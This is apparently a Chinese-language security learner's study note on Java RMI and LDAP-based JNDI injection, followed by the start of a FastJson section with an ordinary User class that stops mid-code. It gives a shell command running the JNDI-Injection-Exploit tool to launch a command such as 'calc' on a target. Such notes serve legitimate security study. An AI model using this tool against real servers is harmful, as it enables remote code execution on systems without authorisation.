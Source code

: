 RMI（Remote Method Invocation，远程方法调用）是一种用于在分布式系统中实现对象之间通信的协议。它允许一个Java对象（客户端）调用另一个Java对象（服务器端）的方法，即使这两个对象运行在不同的虚拟机（JVM）中，甚至不同的物理机器上。RMI是Java语言中内置的分布式计算技术，主要用于构建分布式应用程序。

注入原理：利用自带的LDAP、RMI协议完成调用class文件实现。

**RMI协议&RPC**

![image-20251023160653921](C:\Users\pwn\AppData\Roaming\Typora\typora-user-images\image-20251023160653921.png)

**LDAP协议**

LDAP Light Directory Access Portocol

LDAP协议主要用于单点登录SSO(SingleSignon)，典型的案例：

学校的单点登录系统，登录后教务系统、选课系统等都可以直接访问

LDAP可以用于SSO，但不等与SSO，这种协议还可以用于统一各种系统的认证方式、储存企业组织架构，员工信息（由于它使用树形结构，查询效率高）等等

LDAP的服务处理工厂类是：com.sun.jndi.ldap.LdapCtxFactory，连接LDAP之前需要配置好远程的LDAP服务。

![image-20251023161019455](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/image-20251023161019455.png)

#### 使用FinalShell生成JNDI进行漏洞注入

```shell
// 如果没安装Java的话
sudo apt install default-jre

// 之后切换到jar包所在的目录
//  使用命令
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A "IP地址"
```

可参考：https://blog.csdn.net/weixin_43895765/article/details/121943404

但是我这里不知道是什么问题执行没成功，估计是JDK版本问题，我电脑本身的JDK8不知道为什么问题很多，后续会换，目前还是看文章内的吧。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3603.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/3602.png)

## Java-三方组件-FastJson&反射

### FastJson

在前后端数据传输交互中 , 经常会遇到字符串 (String) 与 json,XML 等格式相互转换与解析，其中 json 以跨语言，跨前后端的优点在开发中被频繁使用，基本上是标准的数据
交换格式。它的接口简单易用，已经被广泛使用在缓存序列化，协议交互， Web 输出等各种应用场景中。 FastJson 是阿里巴巴的的开源库，用于对 JSON 格式的数据进行解析和打包。

先创建软件包，名字任意，之后再创建两个类，一个是User，另外一个FastJson。

代码如下：

User类：

```java
package com.test;

public class User {
    private String name;
    private int age;

    public String getName(){
        return name;
    }
    public Integer getAge(){
        return age;
    }

    public void setName(String name){
```